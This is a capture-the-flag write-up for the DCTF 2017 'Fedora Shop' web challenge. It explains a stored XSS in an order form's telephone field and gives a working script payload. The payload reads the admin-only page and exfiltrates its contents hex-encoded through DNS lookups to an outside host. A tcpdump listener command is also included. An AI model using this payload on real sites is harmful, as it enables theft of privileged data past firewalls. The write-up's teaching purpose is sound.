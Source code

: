 ```yaml
---
layout: post
title: "[DCTF 2017] Fedora Shop Writeup"
date: 2018-07-15 11:29 -0300
categories: [dctf, writeups]
tags: [DCTF, DefCamp, '2017', writeups, CTF,  challange]
pin: false
hidden: false
---
```


### Description:
After a series of attacks against their administrators they firewalled their facility. Will this stop you?

https://fedora-shop.dctf-f1nals-2017.def.camp/

### Author: 
Lucian Nitescu, Anatol

### Stats: 
374 point / 7 solvers

### Solution:  

The challenge started with this simple website:

![alt text](https://raw.githubusercontent.com/CCSIR/dctf-2017/master/finals/web/fedora-shop/img/1.png "1")

When we send the order (on "Complete Order") we can exploit an stored XSS vulnerability in the "Telephone" input field. Example:

![alt text](https://raw.githubusercontent.com/CCSIR/dctf-2017/master/finals/web/fedora-shop/img/2.png "2")

After "Complete Order":

![alt text](https://raw.githubusercontent.com/CCSIR/dctf-2017/master/finals/web/fedora-shop/img/3.png "3")

Proof of stored XSS:

![alt text](https://raw.githubusercontent.com/CCSIR/dctf-2017/master/finals/web/fedora-shop/img/4.png "4")

On this page we can observe two important things. First we can see that our XSS vulnerability exploit was successful and that your order was visited by an admin and the status has been changed to "Shipped!" from "Pending approval". But where is our flag?

The flag is on "/admin.php" and can be accessed only by the admin. Example:

![alt text](https://raw.githubusercontent.com/CCSIR/dctf-2017/master/finals/web/fedora-shop/img/5.png "5")

Also any http request or ways of data exfil using stored XSS that require http request have been firewalled (as stated in the description of the challenge). One way of getting the flag from "admin.php" page is to use DNS requests on port 53. Example:

On our exfil server we will listen for DNS requests using the following command:

```terminal
tcpdump -vn udp port 53 -i ens3
```

As attack vector for only first 25 characters (50 hexa) of the flag we will use:

* Note that the "Telephone" input has to be stored is the DB and should never exceed 255 characters.

```html
<script>setTimeout(function(){$.get('/admin.php',function(d){var h='';for(i=0;i<d.length;i++){h+=("00"+d.charCodeAt(i).toString(16)).slice(-2);}$(document.body).append($('<img>').attr('src','//t'+h.substring(0,50)+'.dns.tux.ro'));});},999);</script>
```

The above script will be executed when the Admin will visit the orders page and it will also send the DNS request to our server, which will look like:

![alt text](https://raw.githubusercontent.com/CCSIR/dctf-2017/master/finals/web/fedora-shop/img/6.png "6")

Which stands for:

```python
lucian@nitescu:~$ python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> buf = "444354467b3934366436636131366332663337306237343563"
>>> buf.decode("hex")
'DCTF{946d6ca16c2f370b745c'
>>> 
```

Now we can just change the script to get the next 25 characters of the flag until we get this:

DCTF{946d6ca16c2f370b745caf00f45ff2ac3656a3dcfee5d35cd8e853dc6d13470d}